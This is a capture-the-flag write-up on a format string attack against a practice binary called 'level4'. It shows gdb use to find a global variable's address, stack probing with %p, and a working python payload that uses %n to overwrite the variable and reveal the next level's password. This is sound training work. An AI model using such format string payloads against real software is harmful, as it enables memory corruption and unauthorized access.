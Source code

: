 ## Press printf's f for fun and profit episode II (level4)

This level's [binary](source.c) is once again fairly similar to the last one. It
takes user input and prints it back to stdin. Here the input buffer is also
directly given to printf, which means we can perform an other
[format string attack](https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b).
We also still have the same _m_ global variable that needs to be set to a given
value to pass a condition. This time, the binary will directly print the next
level's password if _m_ equals 0x1025544 (16930116).

So first, let's get _m_'s address:

```shell
# run gdb on the binary
gdb ./level4
# get the address
(gdb) i addr m
Symbol "m" is at 0x8049810 in a file compiled without debugging.
```

Now we can try adding some conversions to the format string to pop random values
from a stack and when we reach our buffer:

```shell
aaaabbbbccccdddd %p %p %p %p %p %p %p %p %p %p %p %p %p | ./level4
aaaabbbbccccdddd 0xb7ff26b0 0xbffffb84 0xb7fd0ff4 (nil) (nil) 0xbffffb48 0x804848d 0xbffff940 0x200 0xb7fd1ac0 0xb7ff37d0 0x61616161 0x62626262
```

We start reaching our buffer at the 12'th conversion. Now we need to find a way
to make printf's output 16930116 characters long. The best way to do that is to
use * to pass an int argument from the stack as a field width specifier.

Here's the magic payload:

```shell
# feed the exploit payload to the binary
python -c 'print "\x01\x02\x54\xda"[::-1] + 4 * "a" + "\x08\x04\x98\x10"[::-1] + "%p%p%p%p%p%p%p%p%p%p%p%0*p%n"' | ./level4
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

It works. The first value here is the number is last p conversion's field width.
This is the number we want to write in _m_ minus the length of the string
returned by printf. Then we have 4 padding bytes for the last %p conversion, and
then the address of _m_ we pass to %n.

